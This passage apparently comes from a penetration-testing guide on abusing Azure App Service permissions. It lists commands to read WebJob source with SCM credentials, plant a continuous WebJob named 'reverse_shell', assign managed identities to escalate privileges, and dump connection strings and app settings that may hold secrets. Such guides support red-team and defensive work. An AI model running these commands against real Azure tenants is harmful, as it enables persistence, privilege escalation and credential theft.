 - Read **Webjobs** source code:

```bash
# Using SCM username and password:
# Find all the webjobs inside:
curl "<SCM-URL>/wwwroot/App_Data/jobs/" \
  --user '<username>:<password>'

# e.g.
curl "https://nodewebapp-agamcvhgg3gkd3hs.scm.canadacentral-01.azurewebsites.net/wwwroot/App_Data/jobs/continuous/job_name/rev.js" \
  --user '<username>:<password>'
```

- Create **continuous Webjob**:

```bash
# Using Azure permissions
az rest \
  --method put \
  --uri "https://windowsapptesting-ckbrg3f0hyc8fkgp.scm.canadacentral-01.azurewebsites.net/api/Continuouswebjobs/reverse_shell" \
  --headers '{"Content-Disposition": "attachment; filename=\"rev.js\""}' \
  --body "@/Users/username/Downloads/rev.js" \
  --resource "https://management.azure.com/"

# Using SCM credentials
curl -X PUT \
  "<SCM-URL>/api/Continuouswebjobs/reverse_shell2" \
  -H 'Content-Disposition: attachment; filename=rev.js' \
  --data-binary "@/Users/carlospolop/Downloads/rev.js" \
  --user '<username>:<password>'
```

### Microsoft.Web/sites/write, Microsoft.Web/sites/read, Microsoft.ManagedIdentity/userAssignedIdentities/assign/action

These permissions allow to **assign a managed identity** to the App service, so if an App service was previously compromised this will allow the attacker to assign new managed identities to the App service and **escalate privileges** to them.

```bash
az webapp identity assign --name <app-name> --resource-group <res-group> --identities /subscriptions/<subcripttion-id>/resourceGroups/<res_group>/providers/Microsoft.ManagedIdentity/userAssignedIdentities/<managed-identity-name>
```

### Microsoft.Web/sites/config/list/action

This permission allows to list the **connection strings** and the **appsettings** of the App service which might contain sensitive information like database credentials.

```bash
az webapp config connection-string list --name <name> --resource-group <res-group>
az webapp config appsettings list --name <name> --resource-group <res-group>
```
